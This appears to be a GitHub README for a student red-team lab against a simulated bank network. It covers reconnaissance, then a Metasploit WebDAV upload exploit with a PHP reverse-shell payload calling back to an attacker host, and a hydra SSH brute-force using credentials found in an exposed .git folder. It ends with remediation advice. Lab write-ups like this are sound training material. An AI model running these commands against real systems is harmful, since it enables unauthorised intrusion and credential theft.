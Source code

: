 # 🛡️ Red Teaming Operations Project

A beginner-friendly, full-scope red teaming simulation conducted against PJ Bank's virtual infrastructure. This project involves reconnaissance, vulnerability scanning, exploitation of both Windows and Linux machines, and professional reporting.


## 📌 Project Overview

This simulation mimics a real-world penetration test and follows standard red team methodology. The infrastructure includes:

| Asset                        | Hostname                  | IP Address   |
|-----------------------------|---------------------------|--------------|
| Public web server           | Learnaboutsecurity.com    | [REDACTED]   |
| Employee workstation        | Win10                     | 10.1.2.4     |
| Web server in DMZ           | DMZiServer                | 10.1.0.7     |
| Payroll server (internal)   | Debianx64DMZOnCloudNew    | 10.1.0.12    |


## 🔍 Phase 1: Reconnaissance

### ✅ WHOIS Lookup
- Used [whois.com](https://whois.com) to gather registration info on `learnaboutsecurity.com`

### ✅ DNS Enumeration
- Used [dnsdumpster.com](https://dnsdumpster.com) to discover DNS records and host IPs

### ✅ Technology Fingerprinting
- Identified technologies like Cloudflare, Font Awesome, and HSTS using [Wappalyzer](https://www.wappalyzer.com)


## 🖥️ Phase 2: Windows Exploitation

### 🔎 Scanning
nmap -sV -p- -T4 -Pn 10.1.2.4
Discovered Apache 2.2.14 (outdated)

#### 💥 Exploitation (Metasploit)
bash
Copy
Edit
use exploit/windows/http/xampp_webdav_upload_php
set payload php/reverse_php
set RHOST 10.1.2.4
set LHOST 10.1.2.5
set LPORT 4444
run
Gained shell access to Windows 10 machine

## 🧱 Phase 3: Linux Exploitation
🖥️ Target 1: DMZiServer
🔍 Directory Scan

dirb http://10.1.0.7/ ~/Downloads/Udacity.txt
Found .git/ directory and extracted keys.txt containing:


username: admin123
password: Password123!
🔐 Target 2: Debian Internal Server
🔓 Brute-Forcing SSH

hydra -l admin123 -P ~/Downloads/Udacity.txt ssh://10.1.0.12
Successfully cracked credentials

##### 🧠 SSH Access

ssh admin123@10.1.0.12
whoami
hostname
Gained full shell access

## 📝 Final Report Summary
🔒 Key Vulnerabilities
Severity	Issue
High	Public .git/ with exposed credentials
High	SSH access via weak credentials
Medium	Apache 2.2.14 outdated and exploitable
Low	Misconfigured /server-status endpoint

### 🔧 Recommendations
Block access to developer folders like .git/

Enforce strong password and MFA policies

Regularly patch public-facing software

####🧰 Tools Used
Kali Linux

whois, dnsdumpster, wappalyzer

nmap, dirb, hydra, msfconsole

##### 📸 Screenshots
All evidence and screenshots are saved in the /screenshots directory and referenced in the final report.


##### 🚀 Author
Jamilu Ibrahim Richifa
LinkedIn | GitHub
